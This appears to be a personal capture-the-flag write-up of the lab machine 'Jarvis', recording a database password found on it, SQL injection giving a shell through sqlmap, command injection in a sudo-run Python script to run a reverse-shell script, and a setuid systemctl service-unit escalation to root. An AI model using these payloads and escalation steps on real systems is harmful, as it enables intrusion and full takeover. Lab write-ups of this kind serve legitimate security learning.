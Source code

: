 # jarvis : `10.10.10.143`

**Table Of Contents:**

<!-- TOC -->

- [jarvis : `10.10.10.143`](#jarvis--101010143)
  - [Credentials](#credentials)
  - [Synopsis](#synopsis)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Lateral Movement](#lateral-movement)
  - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Credentials


| Service | Username | Password |
| :-------: | :--------: | :--------: |
|  mysql  | DBadmin | imissyou |
|         |         |         |

---

## Synopsis

---

## Enumeration

### Opened Ports

- [ ] 22 (SSH)
- [ ] 80 (HTTP)

---

## FootHold

- On the homepage, `supersecurehotel.htb` discovered.
- The parameter `cod` on the room.php page was vulnerable to error based sql injection.
- ![](assets/20210630_015616_image.png)
- Got shell from sqlmap using --os-shell feature which is quite a 🌶 feature. I like it personally.
- User `www-data` can run a simpler.py file with as pepper. Finding way to escalate the privilege from www-data to pepper.

---

## Lateral Movement

- Noticed that `systemctl` has setuid set. Will give a try once got hold of pepper user.

  ```bash
  User www-data may run the following commands on jarvis:   
  ```
- Using `$(bash /dev/shm/rev.sh)` to bypass all those forbidden characters.

  ```bash
  www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper ./simpler.py -p
  ***********************************************
       _                 _   
   ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
  / __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
  \__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
  |___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                  |_|               |_|    |___/ 
                                  @ironhackers.es

  ***********************************************

  Enter an IP: $(bash /dev/shm/rev.sh)
  ```
- Got user `pepper` 💥

---

## Privilege Escalation

- `systemctl` has setuid set.

- With the help of [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/#suid) , got access to root.
  
  ```bash
  cd /tmp
  TF=`mktemp`.service
  echo '[Service] 
  Type=oneshot 
  ExecStart=/bin/bash /dev/shm/rev 
  [Install] 
  WantedBy=multi-user.target' > $TF
  /bin/systemctl link $TF
  /bin/systemctl enable --now $TF
  ```
